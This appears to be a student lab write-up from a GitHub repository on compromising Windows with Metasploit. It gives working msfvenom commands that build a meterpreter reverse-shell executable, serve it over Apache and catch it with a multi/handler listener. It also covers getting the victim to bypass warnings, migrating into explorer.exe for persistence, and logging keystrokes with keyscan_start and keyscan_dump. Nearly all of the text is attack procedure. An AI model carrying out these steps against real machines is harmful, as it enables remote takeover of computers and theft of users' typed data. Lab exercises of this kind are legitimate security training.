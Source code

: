 ## Compromising windows using Metasploit
## Metasploit
Compromising windows using Metasploit

## Metasploit
Compromising windows using Metasploit

## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
## Step 1:
Install kali linux either in partition or virtual box or in live mode

## Step 2:
Investigate on the various categories of tools as follows:

## Step 3:
Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig.

## OUTPUT:
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/55e25116-ef60-4ecd-a949-2b08d7a422d8)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

## OUTPUT:
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/6c367e44-5e08-4164-a5ca-e7ac99ee8634)
copy the fun.exe into the apache /var/www/html folder 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8f1d2b83-04b2-4e5f-9135-c0b66e3fed8a)
Start apache server sudo systemctl apache2 start 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/1d0594e2-bcce-47ef-a6f0-0454e5788022)
Check the status of apache2
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8da36129-ca87-4760-af20-fe77b1476537)
Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/b607223f-3e81-4e48-a6c1-16a2e76065c3)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/8f037c68-1cdd-4164-948c-998161a0355e)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/9358782f-39d2-4a76-8238-2e4a17f42e64)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted. 
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/5e3617f3-97c1-42ff-b26b-b751bbd34bb8)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/f5af3b8d-ab12-4345-83d8-98094fb93b22)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/Udhayasankaran04/Compromising-windows-using-Metasploit/assets/119393933/ef78d1de-015f-4c42-a3c4-fab748720960)
RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.

